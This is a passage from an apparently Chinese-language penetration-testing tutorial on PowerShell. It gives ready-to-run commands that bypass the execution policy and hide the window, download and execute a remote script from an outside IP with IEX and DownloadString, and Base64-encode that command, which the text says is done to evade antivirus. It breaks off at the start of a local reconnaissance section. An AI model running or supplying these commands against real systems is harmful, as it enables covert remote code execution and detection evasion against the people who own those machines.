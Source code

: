 ### 绕过本地权限并隐藏执行

加入`-WindowStyle Hidden -NoLogo -NonInteractive -NoProfile` 即可隐藏执行。

    
    
    PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile -File t.ps1

### 下载远程脚本绕过权限并隐藏执行

    
    
    PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"

或者简写

    
    
    PowerShell.exe -Exec Bypass -W Hidden -NoLogo -NonI -NoP "IEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')"

### 利用 Base64 对命令进行编码

使用 Base64 进行编码主要是为了混淆代码以避免被杀毒软件查杀，经过尝试这里直接使用 Base64 编码是不行的，可以使用 Github
上的一个编码工具，工具下载地址：

https://raw.githubusercontent.com/darkoperator/powershell_scripts/master/ps_encoder.py

下载好后，需要先将要执行的命令保存到文本文件中，这里保存到了 tmp.txt 文本中，之后执行 `python ps_encoder.py -s
tmp.txt` 即可

    
    
    >cat tmp.txtIEX(New-Object Net.WebClient).DownloadString('http://172.16.214.1:8000/t.ps1')>python ps_encoder.py -s tmp.txtSQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA

使用 –Enc 指定 Base64 编码内容

    
    
    PowerShell.exe -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEANwAyAC4AMQA2AC4AMgAxADQALgAxADoAOAAwADAAMAAvAHQALgBwAHMAMQAnACkA

![](https://gitee.com/fuli009/images/raw/master/public/20211027204322.png)

# 0x03 本地工作组信息收集

## 1、手动收集本地工作组信息

  * 查看当前权限

    
    
    whoami
